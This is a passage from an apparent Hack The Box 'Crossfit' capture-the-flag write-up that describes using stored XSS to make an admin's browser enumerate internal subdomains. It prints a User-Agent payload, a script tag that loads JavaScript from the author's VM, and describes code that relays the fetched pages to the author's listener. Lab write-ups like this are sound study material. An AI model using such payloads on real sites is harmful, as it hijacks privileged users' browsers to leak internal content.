 ![13](/assets/images/HTB/Crossfit/13.png)

Alright, It filters php code so logically my next step was trying to bypass that but I couldn't do it this time. Now is the time to consider other options and think about what else could be done with that XSS.

The next step took a lot of time and experimentation but since `admins`{:style="color:orange"} can view pages that we, normal players can't view I could use that to enumerate more.
Since I've already tried fuzzing for hidden directories and came up empty, It is time to fuzz for more sub domains

## Automating Subdomian enumeration

lets start this simple. Consider the following piece of code

![141](/assets/images/HTB/Crossfit/14.1.png)

all it does it sending a get request to `http://DummySub-Domain.crossfit.htb/`{:style="color:orange"} and when it gets a response it sends that response to my listener on port 8000. Since admins are not restricted in terms of viewing web pages, if i can make the admin execute that piece of code I can see what is actually there on `http://DummySub-Domain.crossfit.htb/`{:style="color:orange"}
I can make the admin execute that code simply by changing the `User-Agent`{:style="color:orange"} value to `<script src="http://10.10.16.251/jA.js"></script>`{:style="color:orange"}
That way I can make the admin execute a JS file hosted on my vm and contain the above code.
